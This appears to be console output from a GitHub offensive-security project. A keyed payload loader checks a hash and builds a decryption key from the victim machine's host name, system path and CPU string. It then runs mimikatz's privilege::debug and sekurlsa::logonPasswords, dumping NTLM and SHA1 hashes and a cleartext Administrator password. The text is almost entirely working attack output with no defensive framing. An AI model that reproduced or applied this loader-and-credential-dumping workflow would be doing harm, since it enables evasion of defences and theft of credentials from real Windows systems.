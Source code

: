 ```null
[*] Message Length w/ Padding: 1250056
[*] Test Hash : 3e80bad1df8be59c265c2ff42b3aae96e166ad9ba7d3e0f4b8a88851f101bec481672b05daaaebcb7b01f3eae85e8adc0b9bbe7d1d31feacff613c200b1e1a96
Search Hash: 3e80bad1df8be59c265c2ff42b3aae96e166ad9ba7d3e0f4b8a88851f101bec481672b05daaaebcb7b01f3eae85e8adc0b9bbe7d1d31feacff613c200b1e1a96
[*] Hashes Match
Len full_payload: 1250056
[*] Key Combinations:  [[2haris-pcc:\windows\system32;c:\windows;c:\windows\system32\wbem;c:\windows\system32\windowspowershell\v1.0\;amd64 family 23 model 49 stepping 0, authenticamdharis-pc$]]

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonPasswords

Authentication Id : 0 ; 1724283 (00000000:001a4f7b)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : haris-PC
Logon Server      : HARIS-PC
Logon Time        : 08/04/2023 11:56:06
SID               : S-1-5-21-319597671-3711062392-2889596693-500
	msv :	
	[00010000] CredentialKeys
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	[00000003] Primary
	* Username : Administrator
	* Domain   : haris-PC
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	tspkg :	
	wdigest :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : ejfnIWWDojfWEKM
	kerberos :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 256151 (00000000:0003e897)
Session           : Interactive from 0
User Name         : Administrator
Domain            : haris-PC
Logon Server      : HARIS-PC
Logon Time        : 08/04/2023 11:07:15
SID               : S-1-5-21-319597671-3711062392-2889596693-500
	msv :	
	[00010000] CredentialKeys
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	[00000003] Primary
	* Username : Administrator
	* Domain   : haris-PC
```